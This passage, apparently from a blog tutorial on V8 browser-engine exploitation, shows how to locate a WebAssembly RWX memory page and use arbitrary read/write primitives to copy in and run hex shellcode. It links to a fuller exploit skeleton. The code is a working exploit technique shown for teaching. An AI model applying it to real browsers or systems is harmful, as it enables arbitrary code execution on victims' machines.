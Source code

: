Here's an example of how I did this using `%DebugPrint`, `vmmap`, and printing the memory starting at the `wasm_instance` object.

![DebugPrint](https://raw.githubusercontent.com/m4dSt4cks/m4dst4cks.github.io/master/public/img/exp_wasm_instance.PNG)

![vmmap](https://raw.githubusercontent.com/m4dSt4cks/m4dst4cks.github.io/master/public/img/exp_rwx_page.PNG)

![Offset](https://raw.githubusercontent.com/m4dSt4cks/m4dst4cks.github.io/master/public/img/exp_rwx_offset.PNG)

Now we just do a quick calculation: `0x598 - 0x530 = 0x68`

Once we have that offset, we can fill in a function like this:

```
// https://xz.aliyun.com/t/5003 (tested on ubuntu 20.04)
var shellcode=[0x90909090,0x90909090,0x782fb848,0x636c6163,0x48500000,0x73752fb8,0x69622f72,0x8948506e, 0xc03148e7,0x89485750,0xd23148e6,0x3ac0c748,0x50000030,0x4944b848,0x414c5053,0x48503d59,0x3148e289,0x485250c0,0xc748e289,0x00003bc0,0x050f00];

// get address of RWX memory
rwx_page_addr = arb_read(tagInt(addrOf(wasm_instance)) + WASM_PAGE_OFFSET);

// create dataview for easy memory writing
let buf = new ArrayBuffer(shellcode.length * 4);
let dataview = new DataView(buf);

// move dataview to RWX memory
let buf_addr = addrOf(buf);
let backing_store_addr = buf_addr + 0x14n;
arb_write(tagInt(backing_store_addr), rwx_page_addr);

// copy shellcode
for (let i = 0; i < shellcode.length; i++) {
	dataview.setUint32(4 * i, shellcode[i], true);
}
	
// jump to RWX memory
f();

// credit: https://abiondo.me/2019/01/02/exploiting-math-expm1-v8/
```

Our shellcode is written in 32-bit segments stored in an array. We use the arbitrary r/w primitives from earlier to write to the RWX page and then simply copy over the shellcode. Now when we call the WebAssembly function our shellcode will execute instead!

## Writing an Exploit

At this point we need to put all of our primitives together to create a skeleton for a typical exploit. This will include some helper functions, functions where we can create our primitives, baseline arrays, and the WASM component. You can follow along with my full example here: [exploit_skeleton.js](https://raw.githubusercontent.com/m4dSt4cks/m4dst4cks.github.io/master/exploits/exploit_skeleton.js)

